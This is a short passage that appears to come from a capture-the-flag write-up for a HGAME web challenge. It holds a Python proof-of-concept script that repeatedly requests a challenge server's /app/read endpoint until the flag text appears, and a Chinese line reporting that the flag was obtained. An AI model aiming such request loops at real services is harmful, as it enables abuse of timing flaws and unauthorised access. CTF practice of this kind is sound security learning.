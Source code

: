 poc3

```python
import requests
while True:
    burp0_url = "http://node1.hgame.vidar.club:30762/app/read"
    burp0_headers = {"Accept-Language": "zh-CN,zh;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    res = requests.get(burp0_url, headers=burp0_headers)
    # print(res.text)
    if "hgame" in (res.text):
        print(res.text)
        break

```

成功执行，拿到flag

![ce7c9af5b1c85c5b5c60632c51b313a](./assets/ce7c9af5b1c85c5b5c60632c51b313a.png)


